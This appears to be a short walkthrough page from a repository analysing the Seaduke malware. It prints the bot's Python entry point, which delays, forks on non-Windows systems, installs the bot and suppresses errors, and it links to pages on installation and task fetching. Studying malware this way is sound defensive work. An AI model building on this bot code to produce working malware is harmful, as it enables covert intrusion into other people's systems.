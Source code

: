 # what happens when you execute?
```python
if __name__=="__main__":
    time_sleep(botKlass.run_delay)
    if not botKlass.was_first_run:
        botKlass.was_first_run=True
    if v_sys_platform!='win32':
        forkmeiamfamous()
    me=BotInstallKlass(botKlass.key_id)

    try:
        seh_wrapper()
    except SystemExit:
        me=None
        time_sleep(1)
        sys_exit(0)
    except Exception as e:
        me=None
        time_sleep(1)
        sys_exit(0)
```

* 1) [installing botKlass](https://github.com/mynameisvinn/Seaduke/blob/master/install.md)
* 2) [seh_wrapper](https://github.com/mynameisvinn/Seaduke/blob/master/sehwrapper.md)
* 3) [fetching tasks](https://github.com/mynameisvinn/Seaduke/blob/master/fetch.md) with networkhandler